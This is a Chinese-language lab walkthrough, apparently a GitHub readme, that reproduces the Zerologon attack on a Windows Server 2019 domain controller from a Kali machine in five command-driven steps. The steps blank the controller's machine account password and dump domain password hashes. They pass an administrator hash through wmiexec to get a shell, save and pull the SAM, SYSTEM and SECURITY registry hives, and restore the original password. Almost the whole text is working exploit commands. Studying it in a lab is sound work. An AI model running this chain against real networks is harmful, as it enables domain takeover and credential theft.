 域环境搭建参见：https://github.com/ybdt/post-hub/blob/main/7-横向移动/2021_07_03_域环境搭建/readme.md

受害机器：Win2019_x64_zh-cn  
攻击机器：kali  

```
git clone https://github.com/risksense/zerologon
git clone https://github.com/SecureAuthCorp/impacket
cd ./impacket && pip3 install .
```

复现过程共5个步骤

步骤1：在第一个终端下置空域控的机器用户密码：
```
cd ./zerologon
python3 ./set_empty_pw.py WIN-184MQ8D0KOO 192.168.202.138
其中WIN-184MQ8D0KOO为域控的计算机名，192.168.202.138为域控的ip地址
定位域控可通过命令：net time /domain
```
![image](./pic/1.png)

步骤2：在第二个终端下提取域控中存储的密码哈希：
```
cd ./impacket/examples/
python3 ./secretsdump.py -no-pass -just-dc ybdt.best/WIN-184MQ8D0KOO\$@192.168.202.138
这里要注意$前有一个\，否则会报错名字或服务未知
```
![image](./pic/2.png)

步骤3：在第三个终端下使用提取的administrator的密码哈希执行命令，拿到伪交互式shell：
```
cd ./impacket/examples/
python3 ./wmiexec.py ybdt.best/administrator@192.168.202.138 -hashes :a87f3a337d********f9416be5787d86

reg save HKLM\SYSTEM system.save
reg save HKLM\SAM sam.save
reg save HKLM\SECURITY security.save
lget sam.save
lget security.save
lget sysetm.save
del sam.save
del security.save
del system.save
这里要注意，之前的文章都是get sam.save，但我这里查看帮助发现，命令变为了lget
```
![image](./pic/3.png)

步骤4：在第四个终端下提取原机器用户的密码哈希
```
python3 secretsdump.py -sam sam.save -system system.save -security security.save local
```
![image](./pic/4.png)

步骤5：在第五个终端下恢复原机器用户的密码哈希
```
python3 ./reinstall_original_pw.py WIN-184MQ8D0KOO 192.168.202.138 ffdab15f085c47cec9de338787e3a66c37004a694e1b0d87f675851b5b860ce16988ffa47b2a85d6e5c7af761ef9ef50a53dabfe6b62d9207a7519a6642548fd6c5ac5a0853446c178aef63da854daf6da389d7ce5c4abd1823f43aea1edde71e6d9e47933638fa06a41c3c79fa862577af77287abbadd77f5675d89c166f8e26e232693564fba153f38ccc3032b639691bd667015e5c5846251a67caaac75bf5255264600587222f7583182eb19d3e17284dbd7774a24216ad9ab601067578155c690d27044bf6765e6665bea36b0f059ae000ae9bfcc908b097b5085bdda71b883360d5a4eab76b5d2dd57b383b9
```
![image](./pic/5.png)
